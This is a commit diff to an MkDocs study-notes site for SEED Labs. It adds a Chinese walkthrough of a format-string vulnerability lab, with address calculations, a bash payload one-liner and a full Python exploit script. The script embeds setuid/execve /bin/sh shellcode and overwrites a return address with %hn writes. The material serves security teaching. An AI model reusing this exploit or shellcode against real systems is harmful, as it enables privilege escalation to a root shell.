

Before and after one commit to cc3213252/note-seed-labs, an MkDocs documentation site: the page built from docs/formatvul/malware.md, in a window 1280 px wide and 1400 px high, scrolled down 1068 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
格式化注入恶意代码

````diff
--- a/docs/formatvul/malware.md
+++ b/docs/formatvul/malware.md
@@ -33,3 +33,113 @@ int main(int argc, char **argv)
 }
 ```
 ![准备漏洞程序](../img/format-malware.png)
+
+![找出各种地址](../img/format-malware2.png)
+
+***攻击策略的四个挑战***:
+1、注入恶意代码到栈中：可以简单地在格式化字符串末尾包含一段shellcode
+2、找到恶意代码的起始地址A：恶意代码存放在数组str中，str地址0xbffff644（）
+3、找到返回地址保存的位置B： 返回地址在栈帧上面4个字节，0xbffff618 + 4 = 0xbffff61c
+4、把A写入B的内存：
+
+    实验中跳转到str[]数组偏移量0x90的地方，因此地址是0xbffff644 + 0x90 = 0xbffff6c4，
+    这是要写入返回地址域的数据，因此需要往地址0xbffff61c中写入0xbffff6c4。
+
+为了缩短进攻时间，把0xbffff6c4的4个字节分隔成两个连续的2字节内存块，起始地址分别是
+0xbffff6c4和0xbffff6c6，需要往0xbffff6c6中写入0xbfff，往0xbffff6c4中写入0xf6c4
+
+现在剩下的问题是要知道当printf函数调用时，它的va_list指针要移动多少次才能到达放在str数组中的
+地址0xbffff61e
+
+```bash
+echo $(printf "\x1e\xf6\xff\xbf@@@@\x1c\xf6\xff\xbf")%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x: > badfile
+./fmtvul
+```
+![找出偏移多少次](../img/format-findoffset.png)
+从实验结果可知，0xbffff60e是第21个数，前面需要20个%x才能到达第一个地址（这个图是第一次实验时的地址，里面地址要改下）
+
+!!! 两个关键地址
+
+    0xbffff608 0xbffff60c -> 0xbffff618  0xbffff61c  第一次得到的地址
+    0xbffff634 0xbffff6c4  -> 0xbffff644  0xbffff6d4 最终的地址
+    地址是栈帧地址加4，数据是数组地址加0x90
+    之前的文档是按第一个地址写的，写上这个万一有没改全的做个参考
+
+```python
+#!/usr/bin/python3
+import sys
+
+
+shellcode = (
+    "\x31\xc0"
+    "\x31\xdb"
+    "\xb0\xd5"
+    "\xcd\x80"
+    "\x31\xc0"
+    "\x50"
+    "\x68""//sh"
+    "\x68""/bin"
+    "\x89\xe3"
+    "\x50"
+    "\x53"
+    "\x89\xe1"
+    "\x99"
+    "\xb0\x0b"
+    "\xcd\x80"
+).encode('latin-1')
+
+N = 200
+
+content = bytearray(0x90 for i in range(N))
+start = N - len(shellcode)
+# 把shellcode放在尾部
+content[start:] = shellcode
+
+# 把返回值域的地址放在格式化字符串的头部
+addr1 = 0xbffff61e
+addr2 = 0xbffff61c
+content[0:4] = (addr1).to_bytes(4, byteorder='little')
+content[4:8] = ("@@@@").encode('latin-1')
+content[8:12] = (addr2).to_bytes(4, byteorder='little')
+
+# 加上%x和%hn
+small = 0xbfff - 12 - 19*8
+large = 0xf6d4 - 0xbfff
+s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"
+
+fmt = (s).encode('latin-1')
+content[12:12+len(fmt)] = fmt
+
+file = open("badfile", "wb")
+file.write(content)
+file.close()
+```
+
+```python
+small = 0xbfff - 12
+large = 0xf6d4 - 0xbfff
+s = "%." + str(small) + "x" + "%21$hn" + \
+    "%." + str(large) + "x" + "%23$hn"
+```
+
+![成功攻击](../img/format-success.png)
+成功进行字符串格式化漏洞攻击  &#x1F44D;&#x1F44D;&#x1F44D;
+
+!!! warning
+
+    注意fmtvul的地址会变化，要以最后一次运行攻击时为准
+
+## 减少格式化字符串的长度
+
+```c
+#include <stdio.h>
+
+int main()
+{
+    int var = 1000;
+    printf("%5$.20x%6$n\n", 1, 2, 3, 4, 5, &var);
+    printf("The value in var: %d\n", var);
+    return 0;
+}
+```
+![减少字符长度](../img/format-shortstr.png)
````
Also changed, not shown: docs/img/format-findoffset.png (added), docs/img/format-malware2.png (added), docs/img/format-shortstr.png (added), docs/img/format-success.png (added).
